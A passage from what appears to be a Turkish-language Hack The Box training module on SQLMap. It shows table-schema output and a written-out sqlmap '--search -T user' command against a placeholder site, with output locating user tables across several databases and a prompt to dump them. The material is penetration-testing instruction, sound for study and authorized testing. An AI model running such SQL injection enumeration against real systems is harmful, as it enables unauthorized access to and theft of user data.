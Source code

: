 ```shell-session
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```


## Searching for Data

Çok sayıda tablo ve sütun içeren karmaşık veritabanı yapılarıyla uğraşırken, --search seçeneğini kullanarak ilgilendiğimiz veritabanlarını, tabloları ve sütunları arayabiliriz. Bu seçenek, LIKE operatörünü kullanarak tanımlayıcı adlarını aramamızı sağlar. Örneğin, user anahtar kelimesini içeren tüm tablo adlarını arıyorsak, SQLMap'i aşağıdaki gibi çalıştırabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```
